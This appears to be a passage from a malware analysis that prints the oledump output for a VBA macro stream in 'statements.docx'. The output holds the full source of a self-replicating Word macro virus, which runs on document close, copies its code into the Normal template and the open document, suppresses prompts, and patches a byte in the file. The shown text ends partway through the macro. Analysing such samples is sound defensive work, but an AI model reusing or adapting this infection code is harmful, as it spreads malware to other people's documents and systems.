 #### oledump statements.docx -s A3 -v

```vb
PS C:\Users\vagrant\Desktop\work> oledump statements.docx -s A3 -v
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "0{00020906-0000-0000-C000-000000000046}"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = False
Attribute VB_Customizable = True
'RELAX
Private Sub RELAX2()
End
End Sub

Private Sub ComboBox1_Change()

End Sub

Private Sub Document_Close()
Call GOODSub
Call RELAX2
End Sub

Private Sub GOODSub()
On Error Resume Next
Application.ScreenUpdating = False
Application.Options.SaveNormalPrompt = False
x$ = "C:\temp.tmp"
MacroContainer.VBProject.vbcomponents.Item("ThisDocument").Export x$
Open x$ For Input As #1
keimeno = Input(LOF(1), 1)
Close #1
kk& = InStr(1, keimeno, "'RELAX")
keimeno = Right$(keimeno, Len(keimeno) - kk& + 1)
For j = 1 To 2
If j = 1 Then
NormalTemplate.VBProject.vbcomponents.Item("ThisDocument").Export x$
Else
ActiveDocument.VBProject.vbcomponents.Item("ThisDocument").Export x$
End If
Open x$ For Input As #1
rlx = Input(LOF(1), 1)
Close #1
d1 = InStr(1, rlx, "'RELAX")
If d1 = 0 Then
If j = 1 Then
NormalTemplate.VBProject.vbcomponents.Item("ThisDocument").CodeModule.InsertLines 1, keimeno
NormalTemplate.Save
Else
ActiveDocument.VBProject.vbcomponents.Item("ThisDocument").CodeModule.InsertLines 1, keimeno
End If
End If
Next j
'====================
Dim PRostasia As Byte
PRostasia = 1
fff = FreeFile
If Dir(ActiveDocument.FullName, 6) <> "" Then
Open ActiveDocument.FullName For Binary As #fff
Put #fff, 862, PRostasia
Close #fff
```